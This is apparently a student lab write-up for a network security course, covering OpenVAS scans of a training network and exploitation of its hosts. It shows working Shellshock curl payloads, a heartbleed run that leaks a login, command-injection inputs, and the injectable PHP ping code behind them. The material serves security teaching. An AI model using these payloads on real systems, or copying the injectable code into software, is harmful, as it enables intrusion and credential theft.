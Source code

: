 # 7.2

The scan picks up the heartbleed vulnerability, but not the shellshock vulnerability. This is likely because OpenVAS doesn't know the path to servers with bash files hosted on the HR machine that it could test for vulnerable bash files. It can't try every arbitrary path, so without knowing that http://hr.ep.int.e-netsec.org/cgi-bin/uptime exists in order to try a shellshock attack, it doesn't detect that the HR machine is vulnerable.

The report is in `7.2 report.pdf`.

# 7.3

The reports are in `7.3 report1.pdf` and `7.3 report2.pdf`

# 7.4

$ curl -H "User-Agent: () { :; }; echo; /usr/bin/id" http://hr.ep.int.e-netsec.org/cgi-bin/uptime
uid=33(www-data) gid=33(www-data) groups=33(www-data)

$  curl -H "User-Agent: () { :; }; echo; /sbin/ifconfig" http://hr.ep.int.e-netsec.org/cgi-bin/uptime
eth0      Link encap:Ethernet  HWaddr e2:b2:df:1b:32:ca
          inet addr:10.10.152.150  Bcast:10.10.152.255  Mask:255.255.255.128
          inet6 addr: fe80::e0b2:dfff:fe1b:32ca/64 Scope:Link
          inet6 addr: 2001:470:8cc5:3203:eece:13ff:feea:32f3/64 Scope:Global
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:257264 errors:0 dropped:0 overruns:0 frame:0
          TX packets:251643 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000
          RX bytes:43997783 (41.9 MiB)  TX bytes:123817226 (118.0 MiB)

lo        Link encap:Local Loopback
          inet addr:127.0.0.1  Mask:255.0.0.0
          inet6 addr: ::1/128 Scope:Host
          UP LOOPBACK RUNNING  MTU:16436  Metric:1
          RX packets:205764 errors:0 dropped:0 overruns:0 frame:0
          TX packets:205764 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0
          RX bytes:66263687 (63.1 MiB)  TX bytes:66263687 (63.1 MiB)

# 7.5

Running the heartbleed script with:

```
python heartbleed.py hr.ep.int.e-netsec.org
```

We get the following response:

```
  0000: 02 40 00 D8 03 02 53 43 5B 90 9D 9B 72 0B BC 0C BC 2B 92 A8 48 97 CF BD 39 04 CC 16 0A 85 03 90 .@....SC[...r....+..H...9.......
  0020: 9F 77 04 33 D4 DE 00 00 66 C0 14 C0 0A C0 22 C0 21 00 39 00 38 00 88 00 87 C0 0F C0 05 00 35 00 .w.3....f.....".!.9.8.........5.
  0040: 84 C0 12 C0 08 C0 1C C0 1B 00 16 00 13 C0 0D C0 03 00 0A C0 13 C0 09 C0 1F C0 1E 00 33 00 32 00 ............................3.2.
  0060: 9A 00 99 00 45 00 44 C0 0E C0 04 00 2F 00 96 00 41 C0 11 C0 07 C0 0C C0 02 00 05 00 04 00 15 00 ....E.D...../...A...............
  0080: 12 00 09 00 14 00 11 00 08 00 06 00 03 00 FF 01 00 00 49 00 0B 00 04 03 00 01 02 00 0A 00 34 00 ..................I...........4.
  00a0: 32 00 0E 00 0D 00 19 00 0B 00 0C 00 18 00 09 00 0A 00 16 00 17 00 08 00 06 00 07 00 14 00 15 00 2...............................
  00c0: 04 00 05 00 12 00 13 00 01 00 02 00 03 00 0F 00 10 00 11 00 23 00 00 00 0F 00 01 01 6F 6E 2F 78 ....................#.......on/x
  00e0: 2D 77 77 77 2D 66 6F 72 6D 2D 75 72 6C 65 6E 63 6F 64 65 64 0D 0A 43 6F 6E 74 65 6E 74 2D 4C 65 -www-form-urlencoded..Content-Le
  0100: 6E 67 74 68 3A 20 38 31 0D 0A 0D 0A 5F 6D 65 74 68 6F 64 3D 50 4F 53 54 26 64 61 74 61 25 35 42 ngth: 81...._method=POST&data%5B
  0120: 55 73 65 72 25 35 44 25 35 42 75 73 65 72 6E 61 6D 65 25 35 44 3D 62 6F 62 26 64 61 74 61 25 35 User%5D%5Busername%5D=bob&data%5
  0140: 42 55 73 65 72 25 35 44 25 35 42 70 61 73 73 77 6F 72 64 25 35 44 3D 31 32 33 34 35 36 BC 97 94 BUser%5D%5Bpassword%5D=123456...
  0160: FB AD FB 6F 81 59 11 2A 94 C5 06 FC B7 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 ...o.Y.*........................
```

from which we can determine the username is `bob` and the password is `123456`.

Screenshots of the timesheet website are in `timesheet1.png` and `timesheet2.png`.

# 7.6

OpenVAS reports applications for each host. The only host with samba installed is `10.10.152.150`. Its samba version is 3.6.6, which is vulnerable to the SambaCry attack ("since version 3.5.0 and before 4.6.4, 4.5.10 and 4.4.14")

# 7.7

putting the following input into the text box is enough to execute arbitrary bash:

```
|| /usr/bin/id
# uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

```
|| /bin/pwd
# /var/www/html
```

```
|| /sbin/ifconfig
# eth0: flags=4163  mtu 1500
#         inet 10.10.92.26  netmask 255.255.255.0  broadcast 10.10.92.255
#         inet6 2001:470:8cc5:3201:4e44:5bff:fe32:2aa  prefixlen 64  scopeid 0x0
#         inet6 fe80::4e44:5bff:fe32:2aa  prefixlen 64  scopeid 0x20
#         ether 4c:44:5b:32:02:aa  txqueuelen 1000  (Ethernet)
#         RX packets 5104454  bytes 907362804 (865.3 MiB)
#         RX errors 0  dropped 0  overruns 0  frame 0
#         TX packets 4962994  bytes 1333489206 (1.2 GiB)
#         TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
#
# lo: flags=73  mtu 65536
#         inet 127.0.0.1  netmask 255.0.0.0
#         inet6 ::1  prefixlen 128  scopeid 0x10
#         loop  txqueuelen 1000  (Local Loopback)
#         RX packets 1836  bytes 145889 (142.4 KiB)
#         RX errors 0  dropped 0  overruns 0  frame 0
#         TX packets 1836  bytes 145889 (142.4 KiB)
#         TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

As for getting the source, `|| cat $(ls)` gives us the source of all the files:

```
$output
";
if (isset($_GET["ip"]))
{
	$cmd = "ping -c 3 ".$_GET["ip"]." 2>&1";
	$output = shell_exec($cmd);
	echo "
".$cmd."
".$output."
";
}
?>
```


To create a text file, we can run `|| echo "hello" >> hello.txt`. Screenshot of accessing this file is in `hello.png`.

# 7.8

"Are vulnerability scanners efficient in finding all the vulnerabilities of a system? Explain some
situations where vulnerability scanners may not work efficiently"

Vulnerability scanners are good tools, but they can miss some vulnerabilities. For instance, as they don't have access to the source code of files on the machines, they may not know which webpages or urls will respond to http requests, since that is handled dynamically by many web servers. This means that there might be a webpage vulnerable to command injection or a similar vulnerability (sql injection) that is not feasible for the scanner to detect.

"Analyze any three high or medium risk vulnerability that you found in your reports. What
caused these vulnerabilities? What are some of the steps you can take to remediate these
vulnerabilities?"

1. "jQuery < 1.9.0 XSS Vulnerability". There is a vulnerability in the javascript plugin jquery which gives users more flexibility in constructing xss attacks than it should (allows < anywhere in the string instead of only at the beginning when interpreting as html). To fix this vulnerability, the host should upgrade the jquery version.
2. "Weak Encryption Algorithm(s) Supported (SSH)". The ssh server on this host accepts both weak client-to-server encryption algorithms and server-to-client encryption algorithms. This inclueds cbc mode ciphers and ciphers like arcfour. To fix this vulnerability, the host should disable the weak encryption algorithms for both client-to-server and server-to-client.
3. "Apache HTTP Server ETag Header Information Disclosure Weakness". Vulnerable apache servers can return sensitive information in headers, like the size and inode of files. To fix this vulnerability, the host should update the apache version.
